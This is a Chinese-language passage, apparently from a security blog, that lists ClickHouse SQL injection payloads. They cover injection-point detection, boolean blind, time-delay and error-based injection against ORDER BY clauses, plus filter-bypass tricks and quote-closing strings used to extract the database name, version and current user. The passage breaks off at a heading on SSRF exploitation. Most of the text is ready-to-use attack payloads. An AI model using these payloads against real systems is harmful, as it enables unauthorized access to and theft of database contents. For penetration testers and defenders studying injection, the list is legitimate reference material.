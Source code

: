   
2、常见的sql注入判断、获取表、用户等信息语句  
  
整理了一份挖掘常用的sql注入判断及证明的payload，不熟悉的可以自己搭建一个环境去测试一下，语句如下：  

```
判断注入点
SELECT * from my_new_table order by CAST(create_time AS String); 使用CAST转换字段类型后正常排序
SELECT * from my_new_table order by sleep(1); 延时
SELECT * from my_new_table order by if(1=1,id,1); 当存在字段id时使用if正常排序
SELECT * from my_new_table order by name;select sleep(1);堆叠延时
SELECT * from my_new_table order by (SELECT COUNT(fuzzBits('1', 0.001)) FROM numbers(10000000))
SELECT * from my_new_table order by id,1 不报错
SELECT * from my_new_table order by（1=1?1:1) 和 SELECT * from my_new_table order by if(1,1,1)效果相同，某些情况下如果if被禁用可用来绕过


boole盲注
SELECT * from my_new_table order by toInt64(exp(1)) 不报错
SELECT * from my_new_table order by toInt64(exp(710)) 报错
SELECT id from my_new_table order by toInt64(if(1=2,1,exp(71000)))
SELECT id from my_new_table order by hex(if(mid((select user()),1,1)='d','a','z'))=1
SELECT/**/POSITION('22'/**/IN/**/version()) 判断当前数据版本
SELECT/**/POSITION('22'/**/IN/**/user()) 判断当前用户信息，若括号过滤可用current_user代替


延时注入（sleep和sleepEachRow均可用）
SELECT id from my_new_table order by if(1=2,1,sleep(1)) sql注入延时判断
SELECT id from my_new_table order by if(1=2,1,(SELECT COUNT(fuzzBits('1', 0.001)) FROM numbers(10000000))) sql注入判断
SELECT id from my_new_table order by (select/**/sleep((database()/**/like/**/'%d%')?1:0)) 获取数据库
sleep(version() like’%' 获取数据库版本
sleep(user() like’%’ 获取用户,若括号过滤可用current_user代替
sleepEachRow(user()like'%default%'
if(1=1,1,sleep/**/(if(left(database(),7)='default',3,0)))  获取数据库


报错注入
select data_path from system.databases where 1=1  order by 1=(char(126)||char(126)||CAST((SELECT name from system.databases limit 1 OFFSET 1) AS String)||char(126)||char(126))
'||currentDatabase()||’ 获取当前数据库
'||user()||’   获取当前用户，,若括号过滤可用current_user代替
select currentDatabase() 获取当前数据库
select user() 获取当前用户，,若括号过滤可用current_user代替
```

  
以上的payload都是针对排序后面直接拼接sql语句的场景，如果是通过单双引号去判断的sql注入，  
只需要通过1‘and’1’=‘1或者1’or’1’=’1去进行闭合即可拼接sql语句获取信息  
。  
  
Clickhouse的深入利用（SSRF及获取数据库集群权限）：  
  
1、SSRF的利用方式及绕过  
  